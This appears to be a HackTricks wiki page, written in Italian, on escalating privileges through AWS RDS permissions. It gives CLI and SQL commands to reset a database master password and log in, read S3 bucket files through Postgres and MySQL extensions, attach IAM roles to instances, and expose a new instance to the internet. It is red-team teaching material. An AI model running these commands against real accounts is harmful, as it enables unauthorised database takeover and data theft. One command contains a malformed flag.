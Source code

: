 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Servizio di Database Relazionale

Per ulteriori informazioni su RDS controlla:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con quel permesso un attaccante può **modificare la password dell'utente master**, e il login all'interno del database:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Dovrai essere in grado di **contattare il database** (di solito sono accessibili solo da reti interne).
{% endhint %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei database.

### rds-db:connect

Secondo la [**documentazione**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utente con questo permesso potrebbe connettersi all'istanza DB.

### Abuso dei permessi IAM del ruolo RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se eseguendo **`SELECT datname FROM pg_database;`** trovi un database chiamato **`rdsadmin`**, sai di essere all'interno di un **database postgresql AWS**.
{% endhint %}

Prima puoi controllare se questo database è stato utilizzato per accedere a qualche altro servizio AWS. Potresti controllare questo guardando le estensioni installate:
```sql
SELECT * FROM pg_extension;
```
Se trovi qualcosa come **`aws_s3`** puoi assumere che questo database ha **una sorta di accesso a S3** (ci sono altre estensioni come **`aws_ml`** e **`aws_lambda`**).

Inoltre, se hai permessi per eseguire **`aws rds describe-db-clusters`** puoi vedere lì se il **cluster ha qualche ruolo IAM associato** nel campo **`AssociatedRoles`**. Se presente, puoi assumere che il database fosse **preparato per accedere ad altri servizi AWS**. Basandoti sul **nome del ruolo** (o se riesci a ottenere le **permissive** del ruolo) potresti **indovinare** quale accesso extra ha il database.

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se avessi **credenziali AWS raw** potresti anche usarle per accedere ai dati S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **non ha bisogno di modificare alcuna variabile del gruppo di parametri** per poter accedere a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
All'interno di un mysql, se esegui la query **`SELECT User, Host FROM mysql.user;`** e c'è un utente chiamato **`rdsadmin`**, puoi assumere di essere all'interno di un **AWS RDS mysql db**.
{% endhint %}

All'interno del mysql esegui **`show variables;`** e se le variabili come **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, hanno valori, puoi assumere che il database sia preparato per accedere ai dati S3.

Inoltre, se hai i permessi per eseguire **`aws rds describe-db-clusters`** puoi controllare se il cluster ha qualche **ruolo associato**, il che di solito significa accesso ai servizi AWS).

Ora, per **leggere un file all'interno di un bucket** devi conoscere il percorso completo. Puoi leggerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBCluster` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Questo potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.\
Nota che alcuni DB richiedono configurazioni aggiuntive come Mysql, che deve specificare l'ARN del ruolo nei gruppi di parametri.

### `rds:CreateDBInstance`

Solo con questo permesso un attaccante potrebbe creare una **nuova istanza all'interno di un cluster** che esiste già e ha un **ruolo IAM** allegato. Non sarà in grado di cambiare la password dell'utente master, ma potrebbe essere in grado di esporre la nuova istanza del database a Internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaccante con i permessi `rds:CreateDBInstance` e `iam:PassRole` può **creare una nuova istanza RDS con un ruolo specificato allegato**. L'attaccante può quindi potenzialmente **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
Alcuni requisiti del ruolo/profilo istanza da allegare (da [**qui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Il profilo deve esistere nel tuo account.
* Il profilo deve avere un ruolo IAM che Amazon EC2 ha il permesso di assumere.
* Il nome del profilo dell'istanza e il nome del ruolo IAM associato devono iniziare con il prefisso `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaccante con i permessi `rds:AddRoleToDBInstance` e `iam:PassRole` può **aggiungere un ruolo specificato a un'istanza RDS esistente**. Questo potrebbe consentire all'attaccante di **accedere a dati sensibili** o modificare i dati all'interno dell'istanza.

{% hint style="warning" %}
L'istanza DB deve essere al di fuori di un cluster per questo
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impatto Potenziale**: Accesso a dati sensibili o modifiche non autorizzate ai dati nell'istanza RDS.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
